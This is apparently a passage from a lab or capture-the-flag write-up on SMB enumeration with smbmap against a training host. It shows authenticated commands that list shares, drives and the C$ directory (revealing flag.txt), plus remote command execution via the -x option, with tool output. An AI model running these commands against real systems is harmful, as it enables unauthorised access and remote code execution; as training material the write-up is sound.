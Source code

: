 ```bash
smbmap -u administrator -p smbserver_771 -d . -H 10.2.21.233
```

![smbmap with credentials](assets/image-20230213230118466.png)

- Run a command using the smbmap `-x` option

```bash
smbmap -u administrator -p smbserver_771 -H 10.2.21.233 -x 'ipconfig'
```

> ❗ ***R**emote **C**ode **E**xecution* (**`RCE`**) can be achieved through SMB!

![smbmap -x 'command'](assets/image-20230213230521492.png)

- List all drives with `-L` option

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 -L
```

```bash
[+] Host 10.2.21.233 Local Drives: C:\ D:\
[+] Host 10.2.21.233 Net Drive(s):
	No mapped network drives
```

![smbmap -L](assets/image-20230213230347924.png)

- List directory contents with `-r` option

```bash
smbmap -u administrator -p 'smbserver_771' -H 10.2.21.233 -r 'C$'
```

```bash
[+] IP: 10.2.21.233:445	Name: 10.2.21.233                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	C$                                                	READ, WRITE	
	.\C$\*
	dr--r--r--                0 Sat Sep  5 13:26:00 2020	$Recycle.Bin
	fw--w--w--           398356 Wed Aug 12 10:47:41 2020	bootmgr
	fr--r--r--                1 Wed Aug 12 10:47:40 2020	BOOTNXT
	dr--r--r--                0 Wed Aug 12 10:47:41 2020	Documents and Settings
	fr--r--r--               32 Mon Dec 21 21:27:10 2020	flag.txt
	fr--r--r--       8589934592 Tue Feb 14 03:15:53 2023	pagefile.sys
	dr--r--r--                0 Wed Aug 12 10:49:32 2020	PerfLogs
	dw--w--w--                0 Wed Aug 12 10:49:32 2020	Program Files
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	Program Files (x86)
	dr--r--r--                0 Sat Sep  5 14:35:45 2020	ProgramData
	dr--r--r--                0 Sat Sep  5 09:16:57 2020	System Volume Information
	dw--w--w--                0 Sat Dec 19 11:14:55 2020	Users
	dr--r--r--                0 Tue Feb 14 03:30:25 2023	Windows
```

